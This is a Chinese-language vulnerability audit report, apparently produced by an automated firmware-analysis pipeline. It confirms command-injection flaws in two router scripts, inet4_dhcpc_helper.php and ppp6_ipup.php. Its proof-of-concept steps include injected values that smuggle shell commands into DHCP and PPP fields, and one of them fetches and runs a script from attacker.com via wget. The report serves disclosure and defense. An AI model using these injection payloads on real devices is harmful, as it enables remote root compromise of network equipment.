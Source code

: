 - **文件/目录路径：** `etc/services/INET/inet4_dhcpc_helper.php`
- **位置：** `inet4_dhcpc_helper.php: 在 'dhcpplus' 动作的代码块中`
- **描述：** 在 'dhcpplus' 动作中，变量 $IP、$SUBNET、$BROADCAST、$INTERFACE、$ROUTER 被用于构建 ip addr 和 ip route 命令，缺乏过滤。攻击者可注入命令导致网络配置篡改或命令执行。触发条件当 $ACTION 为 'dhcpplus' 时。
- **代码片段：**
  ```
  echo "ip addr add ".$IP."/".$mask." broadcast ".$brd." dev ".$INTERFACE."\n";\necho "ip route add default via ".$ROUTER." metric ".$defrt." table default\n";
  ```
- **备注：** 输入可能受限于 DHCP，但如果用户可控制 ACTION，风险增加。建议验证脚本调用机制。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了inet4_dhcpc_helper.php文件中的命令注入漏洞。代码证据显示，在'dhcpplus'动作中，变量$IP、$SUBNET、$BROADCAST、$INTERFACE、$ROUTER被直接拼接进ip addr和ip route命令，无任何过滤或转义。攻击者可通过注入shell元字符（如分号、反引号）执行任意命令。漏洞可利用性基于以下攻击者模型：1) 未经身份验证的远程攻击者通过控制恶意DHCP服务器响应，注入污染变量；2) 已通过身份验证的本地用户通过直接调用脚本并设置参数。路径可达性当$ACTION等于'dhcpplus'时触发，代码逻辑确认该条件可满足。实际影响包括以root权限执行任意命令（导致网络中断、权限提升或系统破坏）。完整攻击链：攻击者控制输入→变量污染→命令拼接→shell执行。PoC步骤：远程攻击者设置恶意DHCP服务器，在DHCP响应中将IP字段设置为'192.168.1.1; touch /tmp/pwned'，当设备请求DHCP并触发'dhcpplus'动作时，命令'ip addr add 192.168.1.1; touch /tmp/pwned/...'被执行，创建文件/tmp/pwned证明漏洞利用。本地用户可调用脚本如'php inet4_dhcpc_helper.php ACTION=dhcpplus IP="192.168.1.1; id > /tmp/test"'达到类似效果。

## 验证指标

- **验证时长：** 314.63 秒
- **Token 使用量：** 402917

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/ppp6_ipup.php`
- **位置：** `ppp6_ipup.php:50 (近似行号，基于代码结构) 在 echo 'ip -6 route add default via '.$REMOTE.' dev '.$IFNAME.'
'; 处。`
- **描述：** 在代码中，$REMOTE 和 $IFNAME 变量被直接拼接进 'ip -6 route' 命令中，缺乏输入验证和转义。攻击者如果控制 $REMOTE 或 $IFNAME（例如通过恶意 PPP 配置或中间人攻击），可以注入任意 shell 命令。例如，设置 $REMOTE 为 '192.168.1.1; malicious_command' 可能导致命令执行。触发条件是在 PPP 连接建立时脚本执行，攻击者需能影响 PPP 协商或配置。潜在利用方式包括执行系统命令、提升权限或破坏网络配置。
- **代码片段：**
  ```
  echo 'ip -6 route add default via '.$REMOTE.' dev '.$IFNAME.'
  ';
  ```
- **备注：** 需要进一步验证 $REMOTE 和 $IFNAME 的实际来源和可控性；建议检查 PPP 守护进程的输入处理；关联文件包括 ppp4_ipup.php 和其他 PPP 相关脚本。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了代码注入漏洞。证据来自文件 'etc/services/INET/ppp6_ipup.php' 的内容，其中第50行左右的代码 `echo 'ip -6 route add default via '.$REMOTE.' dev '.$IFNAME.'
';` 直接将未经验证的变量 `$REMOTE` 和 `$IFNAME` 拼接到 shell 命令中。这些变量是脚本参数，来源于 PPP 守护进程的输入（如 PPP 协商中的对端 IP 地址和接口名称）。攻击者模型：未经身份验证的远程攻击者，能够操纵 PPP 协商（例如作为恶意 PPP 服务器或通过中间人攻击）控制 `$REMOTE` 或 `$IFNAME` 的值。路径可达：脚本在 PPP 连接建立时自动执行，攻击者可通过触发 PPP 连接到达易受攻击的代码路径。实际影响：命令注入可能导致任意命令执行，因为脚本通常以 root 权限运行，可完全控制系统。PoC 步骤：攻击者设置恶意 PPP 服务器，在 IPv6CP 协商中提供恶意的对端地址，如 `192.168.1.1; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh; sh /tmp/malicious.sh;`。当 PPP 连接建立时，脚本执行拼接的命令 `ip -6 route add default via 192.168.1.1; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh; sh /tmp/malicious.sh; dev ppp0`，导致下载并执行恶意脚本。
